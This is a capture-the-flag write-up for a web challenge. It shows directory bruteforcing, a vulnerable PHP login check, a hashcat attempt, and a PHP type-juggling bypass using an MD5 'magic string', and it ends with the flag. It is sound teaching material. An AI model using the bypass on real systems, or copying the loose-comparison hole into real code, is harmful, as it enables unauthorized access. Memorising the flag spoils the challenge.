



# Solve T-jungle
### https://cybertalents.com/challenges/web/hashable



### Run Directory bruteforce

```bash
dirsearch -u http://wcamxwl32pue3e6m4nzy586unzkmj6zqdkgxu639-web.cybertalentslabs.com/ -x 403,404
```

Output 
```bash
200 -    0B  - /flag.php 
```

### Analyze flag page request with burp 
```http
GET /flag.php HTTP/1.1
Host: wcamxwl32pue3e6m4nzy586unzkmj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

#### Analyze php code
```php
<?php
highlight_file(__FILE__);
include 'flag.php';
if (isset($_GET['passwd'])) {

        if (hash("md5", $_GET['passwd']) == '0e514198421367523082276382979135'){
            echo' <html><head><link href="style.css" rel="stylesheet"></head><body>
            
            <div class="flash"style="text-align:center;margin-top:10%">ACCESS GRANTED : '.$flag.'</div></body></html>';
        } else {
            echo'<html><head><link href="style.css" rel="stylesheet"></head><body>
            <div class="flash" style="text-align:center; margin-top:10%">ACCESS DENIED</div></body></html>';
    
    }
}
?>
```
`highlight_file(__FILE__);`: This function is used to display the source code of the current PHP file (__FILE__).
include `'flag.php';`: This line includes the contents of flag.php into the current PHP script.
Password Verification:
The code checks if the `passwd` parameter is present in the GET request `(isset($_GET['passwd']))`.
If passwd is provided in the GET request, it calculates the **MD5** hash of the provided password using `hash("md5", $_GET['passwd'])` and stores it in `$input_hash`.
It then compares $input_hash with the hardcoded hash `'0e514198421367523082276382979135'`.

If the hash comparison results in a match `($input_hash == '0e514198421367523082276382979135' evaluates to true)`, the code displays **"ACCESS GRANTED"** along with the content of `$flag`.
If the hash comparison fails (no match), it displays **"ACCESS DENIED"**.

### Hash Comparison:
The comparison `if ($input_hash == '0e514198421367523082276382979135')` is interesting because the hardcoded hash value '0e514198421367523082276382979135' starts with '0e'. In PHP, when comparing strings that start with `'0e'` using `==` **(loose comparison)**, PHP treats them as numerical strings due to its type conversion rules. This can lead to unexpected behavior because PHP may interpret such strings as 0e... (e.g., 0e1234 is treated as 0 in numeric context).

### Try to add passwd prameter



### Try to crack the hash 
`hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt` but we coudn't crack it with rockyou.

## Type Juggling Attack
Use Magic string for MD5 `QNKCDZO` -> `0e830400451993494058024219903391`


Flag : `FLAG{852844f3594b5a7befcb90d3a4402d74}`

#### Resources
[Type Juggling PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)

>Find More on ==> github.com/MedhatHassan 